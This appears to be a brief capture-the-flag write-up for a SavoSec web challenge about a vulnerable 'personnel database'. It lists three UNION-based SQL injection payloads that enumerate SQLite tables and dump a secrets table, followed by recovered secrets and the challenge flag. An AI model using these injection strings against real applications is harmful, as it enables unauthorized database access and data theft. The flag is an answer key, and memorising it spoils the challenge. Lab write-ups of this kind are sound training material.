



# I have Trypanophobia!

## Description

Omni-Corp's legacy **personnel database** is still online, and it's as vulnerable as the day it was built. Can you extract the system secrets hidden within?

---

host: https://ctf3.savosec.fi/cybernetics/

``' UNION SELECT name,2,3 FROM sqlite_master WHERE type='table' --``

``' UNION SELECT sql,2,3 FROM sqlite_master WHERE name='secrets' --``

``' UNION SELECT secret_value,2,3 FROM secrets --``

Other secrets:

``Internal Port: 8080 (Restricted)``

``ghost_in_the_omni_shell_secure_v1``

SavoSec{SQL_1nj3ct10n_1s_4_Cl4ss1c_f0r_4_R34s0n}

